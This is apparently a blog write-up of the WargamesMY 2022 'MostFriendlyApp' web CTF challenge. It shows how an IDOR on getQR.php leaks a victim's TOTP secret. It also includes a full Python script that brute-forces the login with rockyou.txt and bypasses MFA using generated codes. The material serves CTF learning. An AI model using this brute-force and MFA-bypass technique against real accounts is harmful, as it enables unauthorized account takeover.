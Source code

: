+++
title = "[WargamesMY 2022] MostFriendlyApp"
description = "This is a web challenge related to TOTP and some bruteforce operation."
date = 2022-12-26T16:47:01+08:00
draft = false
tags = [ "ctf", "web hacking", "IDOR" ]
+++

This web challenge did not provide source code so it is completely blackbox testing. Btw I did not manage to solve all questions on time because of some health related reason 😷.

## Overview

### Challenge Description

> 🚧 I created an account in this website, but lost my authenticator and forgot my password. Can you help me to get my account back? My username is `godam`

Before attacking the system, I prefer to understand the system first in term of functionality/features or flow. Basically the challenge have features like:
* Pre Auth
    1. Register account
    2. Verify account
    3. Login
* Post Auth
    1. Insert Notes
    2. Logout

After register an account, the user will be asked to verify new account. So the server make a request at endpoint `/getQR.php?username={anyusername}` with current registered username to get the QR code. Maybe we can get an IDOR here like entering `godam's` username.

{{< figure src="/img/posts/ctf_2022_wargames_MostFriendlyApp/1.png" caption="Figure 1: Response from getQR.php" width="100%" align="center" >}}

The QR code contains [TOTP](https://en.wikipedia.org/wiki/Time-based_one-time_password) thingy such as secret value and user can scan it with Google/Microsoft Authenticator to get the passcode. Noted that passcode will change for every 30 seconds. In linux, we can use `oathtool` to get totp passcode from secret key.

```bash                                                                                 
❯ oathtool -b --totp 'RUKTVQSRTNNBWNPCBVHK7TNLW2MBUUW5XWF5HJAUUEPVZVCHIKN3PGBFPTLRJQQ3NQGFX3BKYWXO4DUNEYOT5DSL7KC7K6K5RD32PIY' 
188176
                                                                           
❯ oathtool -b --totp 'RUKTVQSRTNNBWNPCBVHK7TNLW2MBUUW5XWF5HJAUUEPVZVCHIKN3PGBFPTLRJQQ3NQGFX3BKYWXO4DUNEYOT5DSL7KC7K6K5RD32PIY' 
188176
                                                                                 
❯ oathtool -b --totp 'RUKTVQSRTNNBWNPCBVHK7TNLW2MBUUW5XWF5HJAUUEPVZVCHIKN3PGBFPTLRJQQ3NQGFX3BKYWXO4DUNEYOT5DSL7KC7K6K5RD32PIY' 
929421
```
Now we have TOTP passcode, an user account but we dont have his password. Then hint was released saying that `It is required to brute force his password to solve it`.

## Solution

Since we already know the username and passcode, we just have to bruteforce password field on login form. So the flow is something like this:
1. First, I try to login with `godam` as username and any password from rockyou.txt as password
2. Then, sends totp code for `godam`

If the system validate the passcode, we will found the correct password for `godam`. I using python script for bruteforce automation and [oathtool](https://pypi.org/project/oathtool/) to retrieve passcode. Here is the full script and of course we can make the script shorter but hey, as long its work im not gonna touch it.

```py
import requests
import oathtool
import time

cookies = {
    'PHPSESSID': '99uc5a5630dbiltiek8nfud4v5',
}

def passcode(secret):
    t = time.localtime(time.time())
    time_in_seconds = t.tm_sec

    if time_in_seconds % 30 > 28:
        time.sleep(3)
    
    totp = oathtool.generate_otp(secret)

    headers = {
        'Host': 'mfa.wargames.my',
        'Cache-Control': 'max-age=0',
        'Upgrade-Insecure-Requests': '1',
        'Origin': 'http://mfa.wargames.my',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
        'Referer': 'http://mfa.wargames.my/verify.php',
        'Accept-Language': 'en-US,en;q=0.9',
        'Connection': 'close',
    }

    data = {
        'otp': f"{totp}",
    }

    response = requests.post('http://mfa.wargames.my/verify.php', cookies=cookies, headers=headers, data=data, verify=False, allow_redirects=True)
    return response.text

def login(passwd):
    params = {
        'username': 'godam',
        'password': f"{passwd}",
    }

    headers = {
        'Host': 'mfa.wargames.my',
        'Upgrade-Insecure-Requests': '1',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
        'Referer': 'http://mfa.wargames.my/login.php',
        'Accept-Language': 'en-US,en;q=0.9',
        'Connection': 'close',
    }
    response = requests.get('http://mfa.wargames.my/login.php', params=params, cookies=cookies, headers=headers, verify=False)
    return response.status_code

filename = "/usr/share/dirb/wordlists/rockyou.txt"
secret_godam = "RUKTVQSRTNNBWNPCBVHK7TNLW2MBUUW5XWF5HJAUUEPVZVCHIKN3PGBFPTLRJQQ3NQGFX3BKYWXO4DUNEYOT5DSL7KC7K6K5RD32PIY" # user godam

with open(filename) as file:
    for passwd in file:
        login_stcode = login(passwd.rstrip())

        if login_stcode == 200:
            if "Verified!" in passcode(secret_godam):
                print(f"Valid password for godam: {passwd}")
                exit()
            else:
                print(f"Invalid password for godam: {passwd}")
                time.sleep(1.5)
        else:
            print(f"Error on login")
            exit()
```

## Summary

In this challenge, I learnt how to create script to bruteforce an application that using microsoft authenticator. Quiet challenging at first but definitely worth to solve.